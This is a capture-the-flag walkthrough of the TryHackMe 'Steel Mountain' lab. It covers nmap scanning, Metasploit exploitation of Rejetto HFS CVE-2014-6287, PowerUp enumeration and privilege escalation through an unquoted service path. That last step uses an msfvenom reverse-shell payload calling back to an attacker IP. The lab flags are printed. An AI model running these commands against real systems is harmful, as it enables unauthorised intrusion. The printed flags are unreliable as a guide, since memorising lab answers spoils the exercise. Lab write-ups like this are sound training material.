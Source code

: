 Room: https://tryhackme.com/room/steelmountain

Title: Steel Mountain

Target IP: 10.10.144.146

1. Who is the employee of the month?
   - Navigate to the website at your target IP address
   - Inspect the source code of the website

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/900ffa36-6186-4ce1-a577-6e327bb1acdc)

   - Doing an "Inspect" on the website lets us see the name of the image
   - Alternatively, we could have saved the image and performed a reverse lookup

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/9d8ba84c-af0a-4e20-86dc-fad56e8718b0)

   - Answer: **Bill Harper**

2. Scan the machine with nmap. What is the other port running a web server on?
   - ```nmap -sC -sV 10.10.144.146```

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/0cceda4f-317c-412f-bcff-1aa16a67cf0d)

3. Take a look at the other web server. What file server is running?
   - Navigate to ```Target IP:8080```
   - Click on HTTPFileServer 2.3
   - We find our answer!!

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/0c6fd3c2-0332-437c-aaad-df1410dd1f03)

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/b3eb4295-d9d8-4316-ad65-1fde1729bc06)

   - Answer: **Rejetto HTTP File Server**

4. What is the CVE number to exploit this file server?
   - A simple google search does the trick!

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/a7067f7b-8265-49b3-a4fb-f63eca04d811)

   - Answer: **2014-6287**

5. Use Metasploit to get an initial shell. What is the user flag?
   - Metasploit is a built in pen-testing tool that comes with Kali Linux and uses known vulnerabilities to gain shells
   - Load it up by typing ```msfconsole```
   - Seach for the exploit we found earlier ```search CVE-2014-6287```
   - Set our exploit ```use 0```
   - Change RPORT number (target port) to 8080 ```set RPORT 8080```
   - Change RHOSTS (the machine we want to attack) to our target IP
     ```set RHOSTS [Target IP]```
   - Change LHOSTS to our VPN (or local machine IP) ```set LHOSTS tun0```
   - Run the exploit using ```run``` or ```exploit```
   - We have gained our meterpreter shell!!!

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/3d1d516d-91d9-488f-bd2a-e584644b011e)

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/0ff7e237-0582-44af-bec5-8de6115a573a)

   - Navigate to the `C:\Users\bill\Desktop` directory
   - Cat out the flag!
     
![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/46a5f56b-1d87-4e02-9569-ad2b23b0e73a)

   - Answer: **��b04763b6fcf51fcd7c13abc7db4fd365**

6. Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?
   - Download the PowerUp script to enumerate the machine: https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
   - Copy and paste the raw script in your VM as ```PowerUp.ps1```
   - Upload script in Meterpreter ```upload [directory path]/PowerUp.ps1
   - Load powershell ```load powershell```
   - Enter powershell ```powershell_shell```

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/830d502e-4388-49bc-bda2-2b49ea75c650)

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/2ab346ff-23b1-4aac-b4ef-b880a8a8660b)

   - Enter commands ```. . \PowerUp.ps1```
   - Run ```Invoke-AllChecks```

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/341a028c-a12b-4538-afb3-6a9c6943ccfa)

   - Answer: **AdvancedSystemCareService9**

7. What is the root flag?
   - Modify the given msfvenom code to your machine IP ```msfvenom -p windows/shell_reverse_tcp LHOST=CONNECTION_IP LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe```
   - ```-p``` is payload
   - ```-e``` is the executable encoded
   - ```f``` refers to file type
   - ```-o``` being outputted, change Advanced.exe to ASCService.exe (not required but easier when uploading so don't have to rename)
   - ```msfvenom -p windows/shell_reverse_tcp LHOST=10.2.104.89 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe```

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/4688485f-fb91-4072-afe5-662bc1226bbe)

   - Go back to meterpreter and upload the ASCService.exe executable ```upload [directory path]/ASCService.exe```

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/549cc542-2619-427b-b124-d2fde0c1c932)

   - Set up a netcat listner on your machine
     
![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/ebd0b2ac-434d-40a3-ae17-89650ea4d3c7)

   - Go back to meterpreter shell and stop the AdvancedSystemCareService9 service so we can edit it...
   - ```shell```
   - ```sc stop AdvancedSystemCareService9```
   - ```exit```

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/c61b2fa3-6b13-4103-8ef0-ce6e2741ea75)

   - Copy the path the service is in

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/b031c092-6616-44ce-8952-a417f2d2d0d2)

   - ```cp ASCService.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"```
   - Replacing the service with a msfvenom payload

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/44f967b4-392b-4887-8e3c-2d570f355790)

   - Go back to shell and start the service so the payload will execute
   - ```shell```
   - ```sc start AdvancedSystemCareService9```

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/26439377-80ed-449e-8033-d25bb4953576)

   - Go back to netcat listener, we have our shell!!!

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/b7bfa4df-5d50-4ec1-802c-d62977b23b91)

   - Find the root flag...
   - Navigate to ```C:\Users\Administrator\Desktop```
   - use ```dir``` instead of ```ls```
   - use ```type``` insetad of ```cat```

![image](https://github.com/Kiezroy/TryHackMe/assets/67439231/8e5d7710-e53a-432e-92a6-490f9bfc6317)

   - Answer: **9af5f314f57607c00fd09803a587db80**

The Task 4 of the room isn't very relevant. It will use the same payload but does it through the python script rather than from metasploit. You have to import your RHOST, LHOST, and ports into the script. Uses winPEAS for privelegde esacalation, the same as PowerUp. We do the same process as before of stopping and starting the service and using a netcat listener. If you want the answers, they are below...

- Answer: **powershell -c "Get Service"**
